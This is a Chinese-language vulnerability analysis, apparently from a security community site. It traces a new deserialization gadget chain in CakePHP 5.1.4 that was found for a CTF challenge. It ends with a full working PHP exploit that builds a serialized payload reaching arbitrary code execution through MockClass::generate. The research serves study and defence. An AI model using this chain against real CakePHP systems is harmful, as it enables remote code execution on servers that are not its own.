# CakePHP 反序列化漏洞分析-先知社区

> **来源**: https://xz.aliyun.com/news/16552  
> **文章ID**: 16552

---

# CakePHP 反序列化漏洞分析

版本 5.1.4

前言：在 suctf 中考察了一道 cakephp 的反序列化漏洞，由于以前版本的链子都用不了，这里自己重新挖掘了一下。

## 调用链分析

### source 点

在之前 `3.x ≤ 3.9.6` 和 `4.x ≤ 4.2.3` 版本入口都是 `vendor\symfony\process\Process` 类的 `__destruct` 方法，但是这个版本中的 `vendor\symfony\process\Process` 类添加了 `__wakeup` 魔术方法，会在 `__destruct` 前执行，直接抛出异常



php 8.1 以上的版本貌似还没有什么办法绕过 `__wakeup` ，所以这里需要重新找下 source 点了。反序列化入口一般就选择 `__destruct` 方法，全局查找该方法，



涉及到的类有点多，最后找到 `src\Internal\RejectedPromise` 中的 `__destruct` 方法，其中存在字符串拼接，并且参数 `$reason` 可控，那么这里可以调用任意 `__tostring` 魔术方法了，就选择这里作为 source 点。



### sink点

一般涉及到方法调用的地方都是选择 `__call` 魔术方法，这里可以继续用之前链子的利用点， `src\ORM\Table` 类的 `__call` 方法，



其可以调用到 `src\ORM\BehaviorRegistry` 类的 `call` 方法，相比以前这里删掉了回调函数，但是看到还是可以调用任意类方法



至于最后调用哪个类方法下面再说。

### 利用链寻找

接着上面的 source 点继续寻找，全局查找 `__tostring` 魔术方法，在 `src\Ast\Type\ConstTypeNode` 类的 `__tostring` 方法发现如下调用，



参数 `$constExpr` 可以控制，那么可以触发到任意 `__call` 魔术方法了。


给 `$constExpr` 赋值为 `src\ORM\Table` 对象，该对象里面没有 `__tostring` 方法，触发到其 `__call` 方法，然后继续到 `call` 方法，



这里的 `$_loaded` 和 `$_methodMap` 属性也都是可以控制的，`hashMethod` 方法返回值也就是可以控制



同样 `has` 方法返回值也是可以控制的



那么现在就可以通过 `return $this->_loaded[$behavior]->{$callMethod}(...$args);` 调用任意类方法了，最初找了个 `src\Command\ServerCommand` 类的`execute`



看到最后存在 system 方法，这个方法和以前版本链子中的 `src\Shell\ServerShell.php` 的 main 方法很像，但是调试发现最后调用的时候报错了，


因为调用的 `execute` 方法需要两个参数，而触发 `__call` 时调用的不存方法 `__tostring` 没有参数，所以这里需要重新找个无参方法。这里通过 seay 来找，一开始找了几个最后都差一点成功利用。

最后找到 `src\Framework\MockObject\Generator\MockClass` 类中的 `generate` 方法



参数 `$mockName` 和 `$classCode` 都可控。

## exp

最后构建 exp，

```
<?php  
namespace PHPUnit\Framework\MockObject\Generator;  
final class MockClass{  
    public $mockName;  
    public $classCode;  
    public function  __construct()  
    {  
        $this->mockName = "MockClass";  
        $this->classCode = "phpinfo();";  
    }  
}  
namespace Cake\Core;  
abstract class ObjectRegistry{  
    public $_loaded = [];  
}  
namespace Cake\ORM;  
use Cake\Core\ObjectRegistry;  
use PHPUnit\Framework\MockObject\Generator\MockClass;  
class BehaviorRegistry extends ObjectRegistry{  
    public $_methodMap = [];  
    public function count(): int{}  
}  
class Table  
{  
    public BehaviorRegistry $_behaviors;  
    public function __construct(){  
        $a=new MockClass();  
        $this->_behaviors = new BehaviorRegistry();  
        $this->_behaviors->_methodMap=["__tostring"=>["MockClass","generate"]];  
        $this->_behaviors->_loaded=["MockClass"=>$a];  
    }  

}  

namespace React\Promise\Internal;  
final class RejectedPromise{  
    public $reason;  
}  
namespace PHPStan\PhpDocParser\Ast;  
interface Node{};  

namespace PHPStan\PhpDocParser\Ast\Type;  
use PHPStan\PhpDocParser\Ast\Node;  
interface TypeNode extends Node{}  

namespace PHPStan\PhpDocParser\Ast\Type;  
use Cake\ORM\Table;  
use React\Promise\Internal\RejectedPromise;  

class ConstTypeNode{  
    public $constExpr;  
}  

$pop = new RejectedPromise();  
$pop->reason=new ConstTypeNode();  
$pop->reason->constExpr=new Table();  
echo base64_encode(serialize($pop));

```
